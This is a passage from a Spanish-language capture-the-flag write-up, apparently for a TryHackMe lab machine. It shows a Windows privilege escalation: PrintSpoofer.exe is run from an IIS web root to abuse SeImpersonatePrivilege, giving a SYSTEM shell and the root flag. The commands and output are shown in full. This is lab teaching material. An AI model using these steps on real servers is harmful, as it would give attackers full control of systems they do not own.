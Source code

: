 Ahora desde la máquina víctima, realizamos una búsqueda recursiva del directorio donde se subió el ejecutable.

```bash
c:\>dir PrintSpoofer.exe /s /b
dir PrintSpoofer.exe /s /b
c:\inetpub\wwwroot\nt4wrksv\PrintSpoofer.exe
```

Con la ruta del archivo identificada, ejecutamos `PrintSpoofer.exe` en la máquina víctima y obtenemos una shell como `SYSTEM`.

```bash
c:\>\inetpub\wwwroot\nt4wrksv\PrintSpoofer.exe -i -c cmd
```

Donde

- `-i`: Indica que se interactue con el nuevo proceso en el símbolo del sistema actual.
- `-c cmd`: Indica que se ejecute el comando *CMD.*

```bash
\inetpub\wwwroot\nt4wrksv\PrintSpoofer.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

Finalmente, podemos leer la flag root en la ruta `c:\Users\Administrator\Desktop`.

```bash
c:\Users\Administrator\Desktop>type root.txt
type root.txt
THM{1fk5kf469devly****************}
```

¡Happy Hacking!
